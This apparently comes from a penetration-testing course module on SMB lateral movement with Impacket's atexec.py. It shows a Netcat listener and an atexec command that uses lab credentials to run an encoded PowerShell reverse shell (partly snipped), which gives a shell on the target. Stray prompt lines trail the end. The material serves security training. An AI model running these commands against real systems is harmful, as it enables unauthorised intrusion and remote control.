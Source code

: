 ### atexec.py

The [atexec.py](https://github.com/fortra/impacket/blob/master/examples/atexec.py) script utilizes the Windows Task Scheduler service, which is accessible through the `atsvc` SMB pipe. It enables us to remotely append a task to the scheduler, which will execute at the designated time.

With this tool, the command output is sent to a file, which is subsequently accessed via the `ADMIN$` share. For this utility to be effective, it's essential to synchronize the clocks on both the attacking and target PCs down to the exact minute.

We can leverage this tool by inserting a reverse shell on the target host.

Let's start a `Netcat` listener:

```shell
nc -lnvp 8080
Listening on 0.0.0.0 8080

```

Now let's pass the domain name, administrator user, password, and target IP address `<domain>/<user>:<password>@<ip>`, and lastly, we can pass our reverse shell payload to get executed. We can generate the reverse shell payload using [revshells.com](https://www.revshells.com/).

```shell
proxychains4 -q atexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="
Impacket v0.11.0 - Copyright 2023 Fortra

[!] This will work ONLY on Windows >= Vista
[*] Creating task \tEQBXeQm
[*] Running task \tEQBXeQm
[*] Deleting task \tEQBXeQm
[*] Attempting to read ADMIN$\Temp\tEQBXeQm.tmp

```

We have successfully established a reverse shell connection in our attack box:

```shell
nc -lnvp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 50027

PS C:\Windows\system32>

```

## Conclusion

`Server Message Block (SMB)` is a great protocol for lateral movement within a network. Several advanced techniques exist for achieving remote command execution, service manipulation, and registry access on remote systems, each with unique advantages and methods to avoid detection.

To perform lateral movement using SMB, there are multiple methods, many of which are detailed in this section. In cases where services or named pipes are unavailable, we may need to rely on specific methods such as Scheduled Tasks to acomplish our goals. Understanding these various methods helps us think creatively and adaptively during a penetration test.


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>